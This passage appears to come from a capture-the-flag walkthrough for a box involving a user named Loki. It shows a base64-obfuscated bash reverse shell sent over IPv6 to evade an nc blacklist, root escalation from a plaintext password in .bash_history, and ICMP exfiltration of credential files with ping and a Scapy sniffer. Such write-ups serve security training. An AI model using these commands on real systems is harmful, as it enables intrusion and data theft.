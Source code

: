 11. **Reverse Shell via IPv6 (Unintended Solution)**:
    - **Technique**: Exploit an IPv6 firewall misconfiguration (iptables blocks IPv4, but `ip6tables` is open) to establish a reverse shell.
    - **Details**: Used the command injection panel to send a base64-encoded reverse shell command over IPv6 to bypass blacklisted commands (`nc`). Set up a Netcat listener on the attacker's IPv6 address (`dead:beef::`) and executed the shell.
    - **Commands**:
      - Attacker: `nc -lvnp -6 9001`
      - Command injection: `echo -n "bash -i >& /dev/tcp/dead:beef::/9001 0>&1" | base64 -w0 | { echo; base64 -d | sh; }`
      - Result: Shell as `www-data`

12. **Privilege Escalation to Root**:
    - **Technique**: From the `www-data` shell, access Loki's `.bash_history` for credentials and switch to root.
    - **Details**: Retrieved `loki:trickeryanddeceitgodofmischiefis@loki` from `.bash_history`, then used `su` to escalate to root.
    - **Commands**:
      - `cat /home/loki/.bash_history`
      - `su -` with `trickeryanddeceitgodofmischiefis@loki`

13. **Locating the Flag**:
    - **Technique**: Search for the flag file using `find` with a modified time filter.
    - **Details**: Found the flag in `/usr/lib/gcc/x86_64-linux-gnu/7/root.txt` (33 bytes, matching the user flag length) after searching for files modified after May 15, 2018.
    - **Commands**:
      - `find / -newer /etc/passwd -type f 2>/dev/null`
      - `wc -c /usr/lib/gcc/x86_64-linux-gnu/7/root.txt`

14. **Intended Solution (ICMP Exfiltration)**:
    - **Technique**: Exfiltrate files using ICMP packets to read data, avoiding the IPv6 reverse shell.
    - **Details**: Used `ping` with the `-p` option to embed file contents (up to 16 bytes per packet) in ICMP packets. Captured packets with `tcpdump` and extracted data using a Python script with Scapy.
    - **Commands**:
      - Command injection: `while read line; do ping -p $line -c 1 [ATTACKER-IP]; done < /home/loki/cred`
      - Attacker: `tcpdump -i tun0 -w icmp.out icmp`
      - Python script:
        ```python
        from scapy.all import *
        def process_packet(packet):
            if packet.haslayer(ICMP) and packet[ICMP].type == 8:
                data = packet[ICMP].load[-4:].decode('utf-8')
                print(data, end='', flush=True)
        sniff(iface='tun0', prn=process_packet)
        ```
    - **Outcome**: Successfully read `/home/loki/cred` and `/etc/passwd` line-by-line via ICMP.

15. **ICMP Shell (Challenge)**:
    - **Technique**: Suggested creating a full ICMP shell for interactive access as root to locate the flag.
    - **Details**: Not implemented in the walkthrough but recommended searching GitHub for ICMP shell scripts to upload and execute on the target.
